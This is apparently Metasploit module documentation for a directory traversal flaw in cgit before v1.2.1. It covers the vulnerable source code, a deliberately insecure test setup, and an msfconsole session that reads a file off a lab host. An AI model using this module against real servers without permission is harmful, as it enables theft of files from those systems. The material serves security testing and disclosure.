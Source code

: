 ## Description

cgit before v1.2.1 has a directory traversal vulnerabiltiy when `cgitrc` has the `enable-http-clone` value set to 1. The directory traversal can be used to download files from the remote host. This module has been tested against cgit v1.1 running on Ubuntu 18.04.

## Vulnerable Application

[cgit before v1.2.1](https://git.zx2c4.com/cgit/)

### Installing cgit on Ubuntu 18.04 x64

1. `sudo apt install cgit` # [dependencies](https://git.zx2c4.com/cgit/tree/README) may have to be downloaded first
2. Modify `/etc/cgitrc` to have `enable-http-clone=1`. Example attached.
3. Add `.htaccess` file with rewrite rules to `/usr/lib/cgit/`. Example attached.
4. Add `cgit.conf` to `/etc/apache2/conf-enabled/`. Example attached.
5. Enable `rewrite.load` and `cgi.load` in apache2.
6. Create bare repo. `mkdir -p repo/test.git && cd repo/test.git && git init --bare`

Example files were only used for testing and are not secure or usable in non-testing environments.  These WILL make your system insecure, but will enable exploitation
by this module.

[cgit.conf](https://github.com/rapid7/metasploit-framework/files/2284678/cgit.conf.txt)

[cgitrc](https://github.com/rapid7/metasploit-framework/files/2284679/cgitrc.txt)

[.htaccess](https://github.com/rapid7/metasploit-framework/files/2284680/htaccess.txt)

### Vulnerability Details from Project Zero

There is a directory traversal vulnerability in cgit_clone_objects(), reachable when the configuration flag enable-http-clone is set to 1 (default):

```
void cgit_clone_objects(void)
{
    if (!ctx.qry.path) {
        cgit_print_error_page(400, "Bad request", "Bad request");
        return;
    }

    if (!strcmp(ctx.qry.path, "info/packs")) {
        print_pack_info();
        return;
    }

    send_file(git_path("objects/%s", ctx.qry.path));
}
```

send_file() is a function that simply sends the data stored at the given filesystem path out over the network.
git_path() partially rewrites the provided path and e.g. prepends the base path of the repository, but it does not sanitize the provided path to prevent directory traversal.

ctx.qry.path can come from querystring_cb(), which takes unescaped data from the querystring.

## Options

### REPO

Git repository on the remote server. Default is empty, `''`.

## Verification Steps

1. `./msfconsole -q`
2. `set rhosts <rhost>`
3. `set targeturi <uri>`
4. `set repo <repo>`
5. `run`

## Scenarios

### Ubuntu 18.04 x64, cgit | 1.1+git2.10.2-3build1

```
msf > use auxiliary/scanner/http/cgit_traversal
msf auxiliary(scanner/http/cgit_traversal) > set rhosts 172.22.222.123
rhosts => 172.22.222.123
msf auxiliary(scanner/http/cgit_traversal) > set targeturi /mygit/
targeturi => /mygit/
msf auxiliary(scanner/http/cgit_traversal) > set repo test
repo => test
msf auxiliary(scanner/http/cgit_traversal) > set filepath /home/msfdev/proof.txt
filepath => /home/msfdev/proof.txt
msf auxiliary(scanner/http/cgit_traversal) > set verbose true
verbose => true
msf auxiliary(scanner/http/cgit_traversal) > run

[+] 172.22.222.123:80     - 
you found me!

[+] File saved in: /home/msfdev/.msf4/loot/20180813150517_default_172.22.222.123_cgit.traversal_235024.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
